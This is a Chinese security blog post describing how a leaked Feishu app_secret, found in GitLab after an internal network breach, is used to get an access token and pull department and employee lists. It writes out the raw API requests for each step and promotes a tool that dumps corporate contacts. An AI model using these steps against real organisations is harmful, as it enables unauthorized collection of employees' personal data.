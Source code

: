 #  记一次飞书app_secret泄露的利用

原创 安全艺术 [ 安全艺术 ](javascript:void\(0\);)

**安全艺术** ![]()

微信号 AnQuanYiShu2022

功能介绍 安全培训、渗透测试欢迎来聊

____

___发表于_

收录于合集

**0x00 案例**  

hvv前的日常测试，成功打入内网，进入gitlab翻了翻，发现了feishu的app_secret：

![](https://gitee.com/fuli009/images/raw/master/public/20230714180201.png)

查看飞书官方文档，简单利用如下：1、获取tennat_access_token

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    POST /open-apis/auth/v3/tenant_access_token/internal HTTP/2Host: open.feishu.cnUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/114.0Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2Accept-Encoding: gzip, deflateUpgrade-Insecure-Requests: 1Sec-Fetch-Dest: documentSec-Fetch-Mode: navigateSec-Fetch-Site: noneSec-Fetch-User: ?1Te: trailersConnection: closeContent-Type: application/jsonContent-Length: 97  
    {    "app_id": "******",    "app_secret": "******"}

![](https://gitee.com/fuli009/images/raw/master/public/20230714180202.png)2、获取部门信息，使用1中的tenant_access_token替换Authorization中的******

  *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    GET /open-apis/contact/v3/scopes HTTP/2Host: open.feishu.cnUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/114.0Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2Accept-Encoding: gzip, deflateUpgrade-Insecure-Requests: 1Sec-Fetch-Dest: documentSec-Fetch-Mode: navigateSec-Fetch-Site: noneAuthorization: Bearer ******Sec-Fetch-User: ?1Te: trailers  
    

![](https://gitee.com/fuli009/images/raw/master/public/20230714180203.png)

3、根据部门id获取部门员工信息

  *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    GET /open-apis/contact/v3/users/find_by_department?department_id=****** HTTP/2Host: open.feishu.cnUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/114.0Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2Accept-Encoding: gzip, deflateUpgrade-Insecure-Requests: 1Sec-Fetch-Dest: documentSec-Fetch-Mode: navigateSec-Fetch-Site: noneAuthorization: Bearer ******Sec-Fetch-User: ?1Te: trailers  
    

![](https://gitee.com/fuli009/images/raw/master/public/20230714180204.png)

4、更多玩法https://open.feishu.cn/document/server-
docs/admin-v1/password/reset![](https://gitee.com/fuli009/images/raw/master/public/20230714180205.png)可惜本次获取的app_secret权限不足……

 ** **0x01 工具****

将飞书的app_secret和小伙伴沟通了下，然后飞书的利用模块就上线了，简单介绍下吧

使用`use
feishu`选择模块，注意红色方框里的说明![](https://gitee.com/fuli009/images/raw/master/public/20230714180206.png)设置认证信息后执行![](https://gitee.com/fuli009/images/raw/master/public/20230714180208.png)导出通信录，不提供部门id的话会获取所有的授权访问部门信息，如果能确定部门权限为全部门，请手动赋值部门id为0，不然获取到的用户信息可能不全

![](https://gitee.com/fuli009/images/raw/master/public/20230714180209.png)

![](https://gitee.com/fuli009/images/raw/master/public/20230714180211.png)

![](https://gitee.com/fuli009/images/raw/master/public/20230714180212.png)

工具地址：https://github.com/fasnow/idebug

目前已集成企业微信和飞书的利用，后续会集成更多利用模块，欢迎star持续关注哈

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

